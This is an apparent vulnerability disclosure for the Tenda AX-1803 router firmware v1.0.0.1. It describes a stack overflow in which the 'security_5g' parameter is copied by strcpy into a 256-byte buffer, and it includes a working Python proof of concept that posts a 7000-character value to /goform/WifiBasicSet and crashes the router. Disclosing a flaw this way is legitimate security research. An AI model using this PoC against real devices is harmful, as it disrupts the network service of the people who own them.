


# Tenda Vulnerability

Vendor:Tenda

Product:AX-1803

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen

Mail:shenshuhao@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the function sub_727F4, the security_5g value is obtained from user-controlled input via v16 = (const char *)sub_4F55C(a1, v15, "none"), where v15 resolves to either "security" or "security_5g" depending on the request context. The returned value is then copied into the local buffer v27 using strcpy(v27, v16). The buffer v27 is a fixed-size stack buffer of 256 bytes (char v27[256]), and strcpy performs no bounds checking on the length of the source string. Since the "security" / "security_5g" parameter is directly supplied by the user and has no enforced size limit, an attacker can provide an overly long value to overflow the destination buffer. This causes strcpy to write past the end of v27, corrupting adjacent stack memory including local variables and possibly control data, which can lead to a process crash and result in a Denial of Service condition. Depending on the environment and available mitigations, the overflow may also be leveraged for further exploitation.


<div  align="center"></div>


## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/WifiBasicSet"

security = "A"*7000
data = {
"security_5g": security,
"doubleBand": "1"
}

r = requests.post(url, data=data)
print(r.status_code, r.text)
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>